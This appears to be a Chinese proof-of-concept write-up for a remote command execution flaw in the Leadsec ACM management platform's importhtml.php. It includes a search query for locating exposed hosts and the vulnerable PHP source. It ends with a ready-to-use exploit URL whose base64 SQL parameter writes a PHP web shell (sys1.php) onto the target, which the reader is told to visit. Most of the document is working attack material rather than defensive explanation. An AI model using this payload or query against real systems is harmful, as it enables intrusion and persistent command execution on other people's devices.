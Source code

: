 # 网御 Leadsec ACM管理平台 importhtml.php 远程命令执行漏洞

# 网御 Leadsec ACM管理平台 importhtml.php 远程命令执行漏洞

## 漏洞描述

网御 Leadsec ACM管理平台 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
网御 Leadsec ACM管理平台
```

## 网络测绘

```
title="Leadsec ACM-管理平台"
```

## 漏洞复现

登录页面

![](/images/202202162230267.png)

出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{



			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php

![](/images/202202162230632.png)

